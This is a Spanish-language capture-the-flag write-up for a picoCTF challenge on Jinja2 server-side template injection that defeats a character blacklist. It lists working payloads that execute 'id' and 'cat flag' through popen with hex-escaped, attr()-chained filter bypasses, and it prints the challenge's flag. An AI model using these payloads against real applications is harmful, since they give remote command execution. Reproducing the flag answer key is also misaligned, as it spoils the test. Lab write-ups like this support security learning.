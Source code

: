 #### Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
¡Creé una página web genial donde puedes anunciar lo que quieras! Leí sobre la limpieza de entradas, así que ahora elimino cualquier carácter que pueda ser problemático :)

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.
#### Consejos:
1.  Server Side Template Injection
2.  Why is blacklisting characters a bad idea to sanitize input?
   
  http://shape-facility.picoctf.net:57962/
  * Se intento como el primero, con la página https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
    Con estos de aquí:
    ![[Pasted image 20250415191357.png]]
    
* `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
   ![[Pasted image 20250415190807.png]]
* `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('==id==')|attr('read')()}}`
   ![[Pasted image 20250415190935.png]]

* Cambiamos `id` por `cat flag`
  ![[Pasted image 20250415191144.png]]
* `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')(=='cat flag==')|attr('read')()}}`
## Solución:
```
# picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}
```
